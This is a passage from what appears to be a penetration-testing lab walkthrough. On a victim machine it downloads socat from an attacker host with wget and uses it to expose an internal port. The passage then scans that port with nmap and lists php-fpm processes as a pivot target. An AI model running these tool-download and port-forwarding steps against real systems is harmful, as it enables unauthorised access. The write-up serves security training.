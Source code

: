 ![Victim: lidia](https://img.shields.io/badge/Victim-lidia-64b5f6?logo=linux&logoColor=white)

`wget http://192.168.56.118/socat`

`chmod u+x ./socat`

`./socat TCP-LISTEN:8888,reuseaddr,fork TCP:127.0.0.1:9000`

`ss -tunlp | head -n 1 && ss -tunlp | grep ":8888"`:
```
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess                         
tcp   LISTEN 0      5            0.0.0.0:8888      0.0.0.0:*    users:(("socat",pid=1124,fd=5)) ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`nmap -Pn -sSV -p8888 -T5 192.168.56.133`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 04:11 EDT
Nmap scan report for 192.168.56.133
Host is up (0.0011s latency).

PORT     STATE SERVICE         VERSION
8888/tcp open  sun-answerbook? ←
MAC Address: 08:00:27:38:FA:9D (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.61 seconds
```

![Victim: lidia](https://img.shields.io/badge/Victim-lidia-64b5f6?logo=linux&logoColor=white)

`ps -faux | head -n 1 && ps -faux | grep "php"`:
```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
lidia       1225  0.0  0.0   2576   904 ?        S    10:23   0:00              \_ sh -c ps -faux | head -n 1 && ps -faux | grep php
lidia       1229  0.0  0.0   6332  2144 ?        S    10:23   0:00                  \_ grep php
root         577  0.0  0.7 204508 22584 ?        Ss   08:51   0:01 php-fpm: master process (/etc/php/8.2/fpm/php-fpm.conf)
dodi         653  0.0  0.3 204996  9356 ?        S    08:51   0:00  \_ php-fpm: pool www ←
dodi         654  0.0  0.3 204996  9356 ?        S    08:51   0:00  \_ php-fpm: pool www ←
```

<div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>
